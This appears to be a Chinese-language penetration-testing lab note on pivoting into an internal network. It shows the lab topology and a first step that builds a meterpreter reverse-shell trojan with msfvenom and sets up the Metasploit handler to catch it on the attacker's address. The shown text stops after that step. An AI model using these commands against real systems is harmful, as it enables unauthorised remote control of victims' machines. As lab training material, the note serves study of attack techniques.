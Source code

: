 # 内网穿透-端口映射

| kali（攻击者） | Win2016（跳板机）                | Win2003（内网靶机） |
| -------------- | -------------------------------- | ------------------- |
| 192.168.114.40 | 192.168.114.79<br />10.10.10.130 | 10.10.10.129        |
|                | 已经被kali获取shell              | 有web服务           |

1、获取win2016的shell

```shell
# 利用msf生成木马，放到win2016
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.114.40 LPORT=4444 -f exe -o shell.exe

# 进入msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.114.40
set lport 4444
run

# 运行win2016上的木马，获取shell

```


